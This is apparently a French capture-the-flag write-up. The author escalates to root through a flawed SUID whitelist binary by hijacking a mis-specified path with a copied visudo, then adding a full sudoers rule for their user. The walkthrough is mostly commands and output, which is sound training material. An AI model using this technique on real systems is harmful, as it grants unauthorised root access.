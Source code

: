 # pwnr00ter

## Information:

- Compte
- ssh://$USER@REDACTED:REDACTED

On nous parle donc d'un binaire `pwnr00ter`
On l'inspecte!
```bash
device@pwnr00ter-7eddae50:/tmp$ ls -lah /usr/bin/pwnr00ter 
-rwsr-sr-x 1 root root 16K Oct 23 16:36 /usr/bin/pwnr00ter
#  ^------------- Oh! SUID bit!
```

Daccord je fais un strings dessus!
```bash
strings /usr/bin/pwnr00ter 
bash: strings: command not found
```
Humm.. cat?
```
One must specify one permitted binary, no arguments allowed![+] Checking if [%s] is allowed to run with privileges
/usr/bin/whoami/usr/bin/date/usr/bin/uname/bin/bin/ping/usr/bin/hostname[-] [%s] not in allowed list, access denied!
[+] Access granted! Running [%s] as root
```

Ok je comprend donc qu'on a certain binaire disponible 
- /usr/bin/whoami
- /usr/bin/date
- /usr/bin/uname
- /bin/bin/ping
- /usr/bin/hostname

Essayons s'en un
``` bash
pwnr00ter ping
[+] pwnr00ter application starting ...

[+] Checking if [ping] is allowed to run with privileges
[+] Access granted! Running [ping] as root
: usage error: Destination address required
```
Je fais plusieurs tentative pour tenter de comprendre ce qui cloche et je me rend compte que.. `/bin/bin/ping` ? Attend.. ce n'est pas le bon path!
```bash
/bin$ mkdir bin
mkdir: cannot create directory ‘bin’: Permission denied
```
Bien entendu je ne peux pas ecrire dans `/bin`
Ce que je me questionn est pourquoi il a reussie a trouver `ping` si il est au path `/bin/bin/ping`?
Peut-etre qu'il gere mal les PATH
```bash
cp /usr/sbin/visudo /tmp/bin/bin/ping
```
Oh! Un gros paquet d'erreur mais j'arrive dans VI 
Ajout nous ceci

```
device  ALL=(ALL:ALL) ALL
```
Suivis de 
```bash
sudo -i
```

```bash
root@pwnr00ter-7eddae50:~# ls
flag.txt
root@pwnr00ter-7eddae50:~# cat flag.txt 
FINCTF{Thou shall not roll you own sudo}
```

Merci @`r3my` qui ma fais remarquer une erreur de debutant... j'ai oublier la premiere fois d'ajouter le `!` a `:wq`